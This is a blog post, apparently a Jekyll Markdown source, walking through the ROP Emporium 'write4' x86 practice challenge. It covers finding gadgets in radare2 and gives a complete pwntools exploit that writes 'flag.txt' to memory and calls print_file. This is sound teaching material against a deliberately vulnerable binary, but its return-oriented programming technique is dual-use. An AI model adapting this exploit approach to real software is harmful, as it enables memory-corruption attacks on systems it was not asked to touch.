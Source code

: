 ```yaml
---
layout: post
title:  "ROP Emporium write4 Writeup (x86)"
date:   2024-06-04 13:15:45 -0400
categories: rop-emporium challenge-4
tags: rop-emporium write4 x86 writeup buffer-overflow rop reverse-engineering 32-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[fourth challenge](https://ropemporium.com/challenge/write4.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/write4.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call `print_file()` with the name of the
file to read as the first argument. The string `flag.txt`
doesn't exist in the binary, so we will need to write it
there ourselves!

## Exploit Crafting
The offset for `x86` challenges will be `44 bytes`. If
you want to know how to find this value see the
[first writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}
for this series.

### Write Gadget
> Check out `usefulFunction`'s assembly
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. We will need to write `flag.txt` to
memory so let's check the `usefulGadgets` section
in `usefulFunction`
We can view the assembly with the following commands

```
s sym.usefulFunction
V
p
```

![useful gadgets](/images/write4/x86-useful-gadgets.png)

The `mov` instruction will set the value from
`ebp` (4 byte qword) into the dereferenced address 
set in `edi`. This is what we'll use to write to memory!
The gadget address is `0x08048543`

### Mov Arguments
> Find a gadget to control `edi` and `ebp` along with
> a writable program segment
{: .prompt-tip }
Now we need to find a gadget which can control `edi` and
`ebp` to control what to write and where to write it. We
can use the `/R` command to search for gadgets
```
/R pop edi
```

![mov args gadget](/images/write4/x86-mov-args-gadget.png)

There are a few which come up but might as well use
this one. Remember we can control where we jump so we
can skip the `pop ebx` and `pop esi` instructions 
entirely! The address we'll use to set `edi` and 
`ebp` is `0x080485aa`

Now that we can control where to write and what to write,
where and what should we write? We want to open `flag.txt`
so we'll set that into `ebp`. But we need to find a
suitable location to write to. We can view writable
sections with the command `iS`

![writable sections](/images/write4/x86-writable-sections.png)

We need to find a section with the `w` permission and a
size of at least 8 bytes (0x08). Let's use the `.data`
section which has the address `0x0804a018`

The python code to write data to an address looks
like this
```python
#!/bin/python3
from pwn import *

# write byte string s to address addr
# return payload in bytes
def write_str(addr, s):
    payload = b''
    # write every 4 bytes of a string
    for i in range(0, len(s), 4):
        # address to write to
        edi = p32(addr + i)

        # prevent slice out of bounds
        j = i+4
        if j >= len(s):
            j = len(s)

        # 4 bytes to write
        ebp = p32(int.from_bytes(s[i:j], 'little'))

        # set mov args
        payload += p32(pop_edi_ebp)
        payload += edi
        payload += ebp

        # write bytes
        payload += p32(write_gadget)
    return payload
```

### print_file()
> Find the `print_file` address and a gadget which
> `pop`s any register
{: .prompt-tip }

First let's find the address of `print_file()` using
the command `afl`

![print-file-addr](/images/write4/x86-print-file-addr.png)

`print_file` is part of a library so we can just use the
address of corresponding `plt` entry, `0x080483d0`

Now we need to set the first argument to this function.
According to the
[x86 calling convention](https://aaronbloomfield.github.io/pdr/book/x86-32bit-ccc-chapter.pdf){:target="_blank"}{:rel="noopener noreferrer"},
function arguments are passed through the stack. Remember
from the
[callme challenge]({% post_url 2024-06-02-rop-emporium-callme-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}
that we'll need to set a `pop` gadget as a function's return
address to keep the stack maintained for additional function
calls. We can just use the `pop` gadget we found earlier!

![pop gadget](/images/write4/x86-mov-args-gadget.png)

Since we only want to `pop` one argument off of the
stack we can just execute `pop ebp`. This makes our
gadget address `0x080485ab`

Here's a reusable function to add arguments to the stack
in `x86`
```python
#!/bin/python3
from pwn import *

# add arguments to stack (x86)
def add_args(args):
    # fix stack after func returns
    payload = p32(pop_ebp)
    for a in args:
        payload += p32(a)
    return payload
```

## Exploit
We finally have everything to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
write_gadget = 0x08048543   # mov qword [edi], ebp
pop_edi_ebp = 0x080485aa
data_addr = 0x0804a018
print_file_addr = 0x080483d0
pop_ebp = 0x080485ab

# write byte string s to address addr
# return payload in bytes
def write_str(addr, s):
    payload = b''
    # write every 4 bytes of a string
    for i in range(0, len(s), 4):
        # address to write to
        edi = p32(addr + i)

        # prevent slice out of bounds
        j = i+4
        if j >= len(s):
            j = len(s)

        # 4 bytes to write
        ebp = p32(int.from_bytes(s[i:j], 'little'))

        # set mov args
        payload += p32(pop_edi_ebp)
        payload += edi
        payload += ebp

        # write bytes
        payload += p32(write_gadget)
    return payload

# add arguments to stack (x86)
def add_args(args):
    # fix stack after func returns
    payload = p32(pop_ebp)
    for a in args:
        payload += p32(a)
    return payload

# create payload
payload = b'A' * 44

# write flag.txt to data section
payload += write_str(data_addr, b'flag.txt')

# call print_file(flag_txt_addr)
payload += p32(print_file_addr)
payload += add_args([data_addr])

# send payload + receive flag
io = process('./write432')
io.send(payload)
io.recvuntil(b'Thank you!\n')
flag = io.recvline()
log.success(flag.decode('utf-8'))
```
![flag](/images/write4/x86-flag.png)

## Conclusion
In this challenge we learned how to write arbitrary
data to memory. By this point we should be relatively
comfortable finding and chaining gadgets together. Next
we'll learn how to deal with forbidden characters in
our payload.

[Previous Challenge (callme)]({% post_url 2024-06-02-rop-emporium-callme-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

Next Challenge (badchars)

[write4 x64]({% post_url 2024-06-03-rop-emporium-write4-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}
